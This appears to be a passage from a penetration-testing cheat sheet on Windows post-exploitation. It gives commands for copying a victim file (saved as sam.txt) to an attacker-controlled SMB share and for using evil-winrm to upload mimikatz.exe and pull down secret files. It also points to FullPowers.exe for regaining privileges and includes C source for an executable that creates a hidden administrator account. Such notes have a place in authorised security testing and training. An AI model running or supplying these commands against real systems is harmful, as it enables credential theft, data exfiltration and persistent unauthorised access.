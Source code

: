**Attacker**:

```shell
# WINVERSION < Windows 10
sudo python3 examples/smbserver.py <share name> <share dir>

# WINVERSION >= Windows 10
sudo python3 examples/smbserver.py -smb2support -username "<user>" -password "<password>" <share name> <share dir>
[...]
```

**Victim**:

```shell
# IF WINVERSION >= Windows 10
net use Z: \\<attacker IP>\<share name> /user:<user> <password>
# listing 
dir \\<attacker IP>\<share name>
# transfer
copy <victim file>  \\<attacker IP>\<share name>\sam.txt
```

### evil-winrm

If it is possible to gain access via WinRM, the *evil-win* tool makes it very easy to upload and/or download files.

```shell
# upload
upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe
#download
download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt
```

## FromLocalServiceToSystem

Credit: [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/).

Let's assume we have a shell with `NT AUTHORITY\LOCAL SERVICE` without its "powers" (AKA privileges). Use the executable *FullPowers.exe* ([https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)) to obtain a shell with full privileges.

## RawMaliciousEXE

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
